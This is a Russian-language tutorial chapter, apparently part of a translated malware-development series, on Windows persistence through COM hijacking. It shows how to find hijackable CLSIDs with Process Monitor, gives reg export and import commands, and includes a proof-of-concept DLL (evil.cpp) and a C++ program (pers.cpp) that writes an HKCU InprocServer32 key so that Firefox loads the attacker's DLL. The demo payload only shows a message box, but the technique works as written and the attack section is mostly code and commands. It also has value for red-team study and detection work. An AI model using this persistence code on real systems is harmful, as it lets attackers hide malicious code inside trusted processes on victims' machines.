\newpage
\subsection{69. Разработка вредоносного ПО: закрепление (persistence) - часть 3. Захват COM DLL. Простой пример на C++.}

{width="80%"}    

Этот раздел является продолжением серии статей о техниках и трюках закрепления вредоносного ПО в Windows.    

Сегодня я расскажу о результате собственного исследования ещё одного метода закрепления: перехват COM-объектов.

### Component Object Model (COM)

В `Windows 3.11` Microsoft представила *Component Object Model (COM)* - объектно-ориентированную систему, предназначенную для создания бинарных программных компонентов, которые могут взаимодействовать с другими объектами. Это интерфейсная технология, позволяющая повторно использовать объекты, не зная их внутренней реализации.     
В этом посте я покажу, как красные команды могут использовать COM-объекты для выполнения произвольного кода от имени доверенного процесса.    

Когда программное обеспечение загружает COM-объект, оно использует API Windows `CoCreateInstance` для создания неинициализированного экземпляра объекта определённого класса, где `CLSID` является одним из обязательных параметров (*идентификатор класса*).

Когда программа вызывает `CoCreateInstance` с определённым `CLSID`, операционная система обращается к реестру, чтобы определить, какой бинарный файл содержит запрошенный `COM`-код:

{width="80%"}    

Содержимое подраздела `InProcServer32` в ключе `CLSID`, показанное на предыдущем изображении, представлено на следующем изображении:

{width="80%"}    

В моем случае `firefox.exe` вызывает `CoCreateInstance` с `CLSID`:     
`{A1DB7B5E-D0EA-4FE0-93C4-314505788272}`. Файл `C:\Windows\System32\TaskFlowDataEngine.dll` связан с ключом реестра      
`HKCU\Software\Classes\CLSID\{A1DB7B5E-D0EA-4FE0-93C4-314505788272}\InprocServer32`

Существует множество способов выполнения кода, но COM часто используется в красных командах для обеспечения закрепления, перемещения по сети и обхода средств защиты. В зависимости от того, как выполняется вредоносный код, во время захвата COM могут использоваться различные подразделы реестра:

- InprocServer/InprocServer32    
- LocalServer/LocalServer32    
- TreatAs    
- ProgID    

Эти подразделы реестра можно найти в следующих ветках:

- `HKEY_CURRENT_USER\Software\Classes\CLSID`    
- `HKEY_LOCAL_MACHINE\Software\Classes\CLSID`    

### Как обнаружить COM-ключи для захвата

Выявить `COM`-ключи, которые можно использовать для атаки `COM Hijacking`, несложно. Для этого достаточно использовать инструмент sysinternals [Process Monitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) для поиска `COM`-серверов, у которых отсутствуют `CLSID`. Кроме того, этот метод не требует повышенных привилегий (`HKCU`).
Следующие фильтры можно настроить в Process Monitor:

{width="80%"}    

Также полезно добавить фильтр: *Exclude if path starts with `HKLM`*    

При загрузке `COM`-объектов в первую очередь проверяется `HKEY CURRENT USER` (`HKCU`), что даёт приоритет объектам, указанным пользователем, перед системными `COM`-объектами (дополнительная информация находится в ключе `HKEY CLASSES ROOT`).

В моем случае процесс `firefox.exe` демонстрирует это поведение на изображении ниже. Процесс пытается получить доступ к `CLSID A6FF50C0-56C0-71CA-5732-BED303A59628` в реестре `HKCU`. 
Поскольку `CLSID` не найден в `HKCU`, Windows переходит к `HCKR` (`HKLM` в фоновом режиме) для поиска идентичного `CLSID`, который срабатывает при следующей попытке. Это можно проверить с помощью команд:

```powershell
reg query \
"HKCU\Software\Classes\CLSID\
{A6FF50C0-56C0-71CA-5732-BED303A59628}\InprocServer32" /s
reg query "HKCR\CLSID\
{A6FF50C0-56C0-71CA-5732-BED303A59628}\InprocServer32" /s
```

{width="80%"}    

Следуя вышеописанным шагам, теперь у нас есть критическая информация, которую можно использовать для запуска *атаки COM Hijacking*.

### процесс атаки

Сначала экспортируем указанные подразделы реестра в файл:    

```powershell
reg export \
"HKCR\CLSID\{A6FF50C0-56C0-71CA-5732-BED303A59628}\InprocServer32" \
C:\...\2022-05-02-malware-pers-3\orig.reg /reg:64 /y
```

{width="80%"}    
Далее модифицируем этот файл, установив значение по умолчанию для ключа реестра:            
`HKCU\Software\Classes\CLSID\{A6FF50C0-56C0-71CA-5732-BED303A59628}\InprocServer32`        

{width="80%"}    

Как видите, мы указываем собственную DLL для выполнения:    

{width="80%"}    

Для простоты я использую тот же файл из одного из моих [предыдущих](https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html) постов.

Можно скомпилировать его из исходного кода (`evil.cpp`):

```cpp
/*
evil.cpp
simple DLL for DLL inject to process
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/09/20/malware-injection-2.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow from evil.dll!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

Затем просто выполнить компиляцию:

```bash
x86_64-w64-mingw32-g++ -shared -o evil.dll evil.cpp -fpermissive
```

{width="80%"}    

Сохраните reg-файл как `evil.reg`:

{width="80%"}    

Импортируем и снова проверяем реестр:

```powershell
reg import \
C:\...\2022-05-02-malware-pers-3\evil.reg /reg:64
reg query \
"HKCU\Software\Classes\CLSID\
{A6FF50C0-56C0-71CA-5732-BED303A59628}\InprocServer32" \
/s
```

{width="80%"}    

Идеально!

### демо

Затем перезапустим `firefox.exe` в моем случае, подождем некоторое время. Я ждал около 7 минут:

{width="80%"}

{width="80%"}

Если вы заметили, то `PID` - `9272`. Но если вы откроете `Process Hacker`, то увидите, что его здесь нет:

{width="80%"}

Firefox завис через некоторое время:    

{width="80%"}

но это произошло единственный раз.   

Позже окно сообщения `meow-meow` стало появляться с некоторой частотой:   

{width="80%"}

И даже после закрытия `firefox`:

{width="80%"}

Это прекрасно! :)

### обновление: программистский способ

Я также создал грязный PoC-скрипт `pers.cpp`:

```cpp
/*
pers.cpp
windows low level persistence via 
COM hijacking
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/05/02/malware-pers-3.html
*/
#include <windows.h>
#include <string.h>
#include <cstdio>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // subkey
  const char* sk = 
  "Software\\Classes\\CLSID\\
  {A6FF50C0-56C0-71CA-5732-BED303A59628}\\InprocServer32";

  // malicious DLL
  const char* dll = 
  "C:\\Users\\User\\Desktop\\shared\\
  2022-05-02-malware-pers-3\\evil.dll";

  // startup
  LONG res = RegCreateKeyEx(HKEY_CURRENT_USER, 
  (LPCSTR)sk, 0, NULL, REG_OPTION_NON_VOLATILE, 
  KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, NULL, 0, REG_SZ, 
    (unsigned char*)dll, strlen(dll));
    RegCloseKey(hkey);
  } else {
    printf("cannot create subkey for hijacking :(\n");
    return -1;
  }
  return 0;
}
```

скомпилируйте его:

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}

и запустите:

```powershell
.\pers.exe
```

{width="80%"}

Как видите, все работает отлично :)

Очистка после завершения экспериментов:
```powershell
reg delete \
"HKCU\Software\Classes\CLSID\
{A6FF50C0-56C0-71CA-5732-BED303A59628}" \
/f
```

{width="80%"}

### заключение

Злоумышленник может использовать не очень распространенный, но широко используемый прием, чтобы обеспечить скрытое сохранение в системе после выполнения этих действий. В реальной жизни этот трюк часто использовался такими группами, как [APT 28](https://attack.mitre.org/groups/G0007/), [Turla](https://attack.mitre.org/groups/G0010/), а также бэкдором [Mosquito](https://attack.mitre.org/software/S0256/).

[COM hijacking MITRE ATT&CK](https://attack.mitre.org/techniques/T1546/015/)    
[APT 28](https://attack.mitre.org/groups/G0007/)    
[Turla](https://attack.mitre.org/groups/G0010/)    
[RegCreateKeyEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regcreatekeyexa)    
[RegSetValueEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa)    
[reg query](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)    
[reg import](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-import)    
[reg export](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-export)    
[reg delete](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-delete)    
[исходный код на github](https://github.com/cocomelonc/2022-05-02-malware-pers-3)    
